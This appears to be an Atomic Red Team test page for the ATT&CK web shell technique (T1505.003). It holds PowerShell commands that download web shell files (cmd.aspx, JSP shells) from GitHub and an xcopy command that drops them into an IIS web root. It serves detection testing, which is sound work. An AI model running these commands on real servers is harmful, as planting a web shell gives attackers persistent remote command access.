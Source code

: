 # T1505.003 - Web Shell
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1505.003)
<blockquote>Adversaries may backdoor web servers with web shells to establish persistent access to systems. A Web shell is a Web script that is placed on an openly accessible Web server to allow an adversary to use the Web server as a gateway into a network. A Web shell may provide a set of functions to execute or a command-line interface on the system that hosts the Web server.

In addition to a server-side script, a Web shell may have a client interface program that is used to talk to the Web server (ex: [China Chopper](https://attack.mitre.org/software/S0020) Web shell client).(Citation: Lee 2013) </blockquote>

## Atomic Tests

- [Atomic Test #1 - Web Shell Written to Disk](#atomic-test-1---web-shell-written-to-disk)


<br/>

## Atomic Test #1 - Web Shell Written to Disk
This test simulates an adversary leveraging Web Shells by simulating the file modification to disk.
Idea from APTSimulator.
cmd.aspx source - https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmd.aspx

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| web_shell_path | The path to drop the web shell | string | C:&#92;inetpub&#92;wwwroot|
| web_shells | Path of Web Shell | path | PathToAtomicsFolder&#92;T1505.003&#92;src&#92;|


#### Attack Commands: Run with `command_prompt`! 


```cmd
xcopy #{web_shells} #{web_shell_path}
```

#### Cleanup Commands:
```cmd
del #{web_shell_path} /q >nul 2>&1
```



#### Dependencies:  Run with `powershell`!
##### Description: Web shell must exist on disk at specified location (#{web_shells})
##### Check Prereq Commands:
```powershell
if (Test-Path #{web_shells}) {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path #{web_shells}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/theclintox/atomic-red-team/raw/master/atomics/T1505.003/src/b.jsp" -OutFile "#{web_shells}/b.jsp"
Invoke-WebRequest "https://github.com/theclintox/atomic-red-team/raw/master/atomics/T1505.003/src/tests.jsp" -OutFile "#{web_shells}/test.jsp"
Invoke-WebRequest "https://github.com/theclintox/atomic-red-team/raw/master/atomics/T1505.003/src/cmd.aspx" -OutFile "#{web_shells}/cmd.aspx"
```




<br/>
